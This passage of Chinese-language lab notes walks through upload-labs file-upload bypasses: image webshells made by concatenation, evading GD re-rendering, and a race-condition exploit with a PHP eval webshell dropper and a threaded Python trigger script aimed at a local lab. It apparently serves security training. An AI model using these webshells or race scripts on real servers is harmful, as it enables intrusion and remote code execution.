  

#### 02-2 绕过方式 2

- 使用现有`.png`和`.php`结合生成新的`.png`文件, 通过文件包含方式访问

  ```cmd
  copy 1.png/b+demo.php shell.png
  ```

  



> 成功连接Shell

#### 02-3 绕过方式 3

- 源`.png`图尾部直接添加一句话木马脚本

  

  

### 2.6.3 图片马绕过-二次渲染(Pass-17)

#### 01 原理

- 服务端使用 GD 库或 ImageMagick 对上传的图片进行**重新渲染**(如缩放, 裁剪), 渲染过程会破坏嵌入的 PHP 代码

#### 02 绕过方式

思路:

- 上传一张正常图片

- 下载服务端渲染后的图片

- 对比渲染前后的差异, 找到未被修改的字节区域

- 将 PHP 代码嵌入到这些"安全区域"中

- 重新上传

- 插件手工绕过使用`.gif`类型文件

  

  
---
### 2.7 条件竞争(Pass-18)

#### 01 原理



- 在上传和删除之间存在极短的时间窗口, 若攻击者在这个时间差内访问到文件, 就能够执行恶意代码

- **利用条件**: 恶意文件被执行一次即可 (如写入1个WebShell)

#### 02 绕过方式

- `test.php`测试脚本写入以下内容

  ```php
  <?php
  $shell = '<?php @eval($_POST["cmd"]); ?>';
  file_put_contents(dirname(__FILE__) . '/shell.php', $shell);
  echo "Shell created";
  ?>
  ```

  > 思路: 上传test.php文件, 文件被先保存后删除, 在这个''时间窗口" 内写入新文件`shell.php`

- 接收端Python脚本`access.py`

  ```python
  import requests
  import threading
  import time
  
  BASE = "http://127.0.0.1:81/upload-labs/upload"
  found = False #全局标志, 找到shell即停
  def trigger():
      # 不断访问 test.php 触发php执行
      global found
      while not found:
          try:
              requests.get(f"{BASE}/test.php", timeout=2)
          except:
              pass
  def check():
      # 不断检测shell.php 是否存在
      global found
      while not found:
          try:
              r = requests.get(f"{BASE}/shell.php", timeout=2)
              if r.status_code == 200:
                  found = True
                  print(f"\n[+] shell OK!")
                  print(f"[+]link:{BASE}/shell.php")
                  print(f"[+]password: cmd")
                  return
          except:
              pass
          time.sleep(0.05)
  if __name__ == "__main__":
      print("[*] 先启动BurpSuite-Intruder, 按回车开始..")
      input()
      
      for _ in range(5): # 5个触发线程
          threading.Thread(target=trigger, daemon=True).start()
      check()            # 主线程负责检测
  ```

- 绕过流程

  - 启动靶场
  - 选择`test.php`
  - BurpSuite抓包拦截
  - 拦截数据定向至Intruder
    - Payload type: `Null payloads`
    - Payload configuration: `Continue indefinitely`
    - Start attack
  - 启动`access.py`

  

  

  
